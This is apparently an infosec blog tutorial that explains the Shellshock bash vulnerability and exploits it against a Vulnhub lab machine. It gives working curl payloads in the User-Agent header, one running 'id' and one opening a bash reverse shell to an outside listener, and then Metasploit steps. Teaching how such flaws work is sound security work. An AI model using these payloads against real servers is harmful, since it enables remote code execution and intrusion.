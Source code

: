 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author: madhavmehndiratta
paginate: false
keywords: shellshock, exploit shellshock manually, how to exploit shellshock vulnerability, shellshock vulnerability, exploit shellshock using metasploit, infosecarticles
---
```

<p align="justify"> One of the most critical bugs that came out in the last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/">"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<img src="/assets/img/uploads/shellshock/nikto.png">

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of the current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<img src="/assets/img/uploads/shellshock/shell.png">

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT = curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<img src="/assets/img/uploads/shellshock/msf-search.png">

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<img src="/assets/img/uploads/shellshock/msf-options.png">

<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to the IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<img src="/assets/img/uploads/shellshock/msf-exploit.png">

<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet">Zet Aboard.</a>